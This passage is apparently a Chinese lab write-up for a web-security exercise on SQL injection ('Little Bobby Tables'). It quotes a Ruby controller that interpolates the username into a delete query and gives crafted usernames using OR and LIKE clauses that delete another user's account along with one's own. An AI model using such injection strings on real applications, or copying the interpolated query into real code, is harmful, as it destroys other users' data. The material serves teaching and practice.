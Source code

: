 

## Attack 5: Little Bobby Tables (aka SQL Injection)

### 漏洞分析

题目要求输入一个特殊用户名字，创建后，点击 Close 会将 user3 和这个用户一起删除。

查看源码：

`user_controller.rb`

```ruby
  def post_delete_user
    if not logged_in?
      render "main/must_login"
      return
    end

    @username = @logged_in_user.username
    User.destroy_all("username = '#{@username}'")

    reset_session
    @logged_in_user = nil
    render "user/delete_user_success"
  end
```

删除用户时使用了 `username = '#{@username}'`。

新建一个用户 `test`，然后点击 Close 删除用户。在服务段查看执行的 sql 命令：

![image-20220506003518155](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220506003518155.png)

用户名在 WHERE 子句中出现，如果用户名中包含 `'` 使得左半部分闭合，右半部分使用模糊查询 LIKE 子句，就可以实现删除多个用户。

 ### 攻击原理

基于上面的思路，可以设计用户名为：

```shell
user3' OR username LIKE 'user3%
```

或者

```shell
user3' OR username LIKE '% OR username LIKE%
```

等等，类似的名字。可以同时匹配到自身和 user3。

创建用户：

![image-20220506004231845](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220506004231845.png)

删除用户：
